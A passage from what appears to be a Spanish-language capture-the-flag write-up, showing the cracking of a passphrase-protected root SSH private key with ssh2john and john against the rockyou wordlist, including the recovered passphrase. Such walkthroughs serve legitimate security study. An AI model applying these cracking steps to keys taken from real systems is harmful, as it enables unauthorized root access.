 ![Write-up Image](images/Screenshot_8.png)

Le asignamos los permisos necesarios a la clave privada.
```console
chmod 600 id_rsa.root
```

El problema es que esta clave privada está protegida por passphrase, así que con `ssh2john` podemos extraer el hash.

```console
ssh2john id_rsa.root > hash
```

Y con `john` podemos intentar crackearlo.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
killer1          (id_rsa.root)
1g 0:00:00:48 DONE (2024-11-27 16:34) 0.02082g/s 36.65p/s 36.65c/s 36.65C/s 2hot4u..welcome1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
